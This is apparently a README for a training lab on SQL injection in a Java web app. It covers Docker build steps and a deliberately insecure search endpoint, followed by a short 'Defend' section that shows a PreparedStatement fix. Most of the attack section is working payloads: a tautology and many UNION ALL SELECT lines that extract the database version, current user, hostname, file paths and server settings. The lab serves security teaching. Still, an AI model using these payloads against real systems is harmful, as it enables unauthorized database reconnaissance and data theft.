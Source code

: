# Java-SQLinjection-1


## What is Sql Injection ?

In this section, we'll explain what SQL injection is, describe some common examples, explain how to find and exploit various kinds of SQL injection vulnerabilities, and summarize how to prevent SQL injection.


Owasp : https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html



Step 1: Open a new terminal and access directory

     cd sql-injection

Step 2: Build the project

    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -w /usr/src/mymaven maven:3.3-jdk-8 mvn compile exec:java

![Getting Started](1.png)


Step 3: Now start the app


    docker-compose up -d

![Getting Started](2.png)


Step 4: In the browser, access 

    http://<server-ip>:8888/SQLInjection/insecure


Step 5: Create some dummy users


![Getting Started](3.png)


Step 6: In the search bar search for any user you have created based on first name

Step 7: Now test for SQL Injection payload

    ' or '1=1


![Getting Started](4.png)

![Getting Started](5.png)

Step 8: You can also try with these payloads To get mysql version

    a' UNION ALL SELECT null,version(),null,null'

You will see a mysql version under the header First Name

To get the logged in mysql user

    
    a' UNION ALL SELECT null,CURRENT_USER(),null,null'

You will see the current mysql user under the header First Name

To get the current database

    a' UNION ALL SELECT null,DATABASE(),null,null'

![Getting Started](4-1.png)


You will see the database name under the header First Name


    a' UNION ALL SELECT null,system_user(),null,null'
    a' UNION ALL SELECT null,@@GLOBAL.innodb_data_file_path,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.bind_address,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.version_compile_os,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.version_compile_machine,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.tls_version,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.block_encryption_mode,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.default_authentication_plugin,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.hostname,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.secure_file_priv,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.hostname,@@GLOBAL.bind_address,CURRENT_USER()'
    a' or '1=1
    test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,IFNULL(CAST(CURRENT_USER() AS CHAR),0x20),0x717a626a71),NULL-- 

Defend

Step 1: On the browser, access http://<server-ip>:8888/SQLInjection/secure

Step 2: In the search bar search for any user you have created based on first name

Step 3: Now test for SQL Injection payload

    ' or '1=1

This should not return any value

![Getting Started](6.png)


Here the fix is a PreparedStatement query from line numbers 87 to 90 in the file 
/src/main/java/mhn/training/labs/Secure.java


